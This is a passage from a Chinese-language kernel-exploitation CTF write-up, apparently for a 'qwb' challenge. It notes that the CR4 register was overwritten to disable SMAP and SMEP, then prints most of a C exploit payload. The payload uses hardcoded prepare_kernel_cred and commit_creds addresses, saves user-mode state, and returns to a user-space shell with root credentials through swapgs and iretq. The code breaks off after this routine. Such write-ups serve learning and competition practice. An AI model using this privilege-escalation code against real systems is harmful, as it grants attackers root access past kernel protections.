 修改后的 cr4 寄存器如下所示，可以观察到已经关闭了 SMAP、SMEP

![qwb](/image/kernelpwn/2.png)  

payload:  
```c
#define _GNU_SOURCE
#include <sys/mman.h>
#include <sys/wait.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <string.h>
#include <stdlib.h>
#include <arpa/inet.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <stdio.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/socket.h>

#define KERNCALL __attribute__((regparm(3)))

// cat /proc/kallsyms | grep "prepare_kernel_cred"
void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xffffffff810779b0; // TODO:change it
// cat /proc/kallsyms | grep "commit_creds"
void (*commit_creds)(void*) KERNCALL = (void*) 0xffffffff81077620; // TODO:change it

unsigned long long user_cs, user_ss, user_rflags, user_sp;
unsigned long long base_addr, canary;

int fd;
int BUFF_SIZE = 96;

void save_stat() {
	asm(
		"movq %%cs, %0;"
		"movq %%ss, %1;"
		"movq %%rsp, %2;"
		"pushfq;"
		"popq %3;"
	: "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags) : : "memory");
}

void restore_stat()
{
	commit_creds(prepare_kernel_cred(0));
	asm(
		"pushq   %0;"
		"pushq   %1;"
		"pushq   %2;"
		"pushq   %3;"
		"pushq   $shell;"
		"pushq   $0;"
		"swapgs;"
		"popq    %%rbp;"
		"iretq;"
	::"m"(user_ss), "m"(user_sp), "m"(user_rflags), "m"(user_cs));
}

```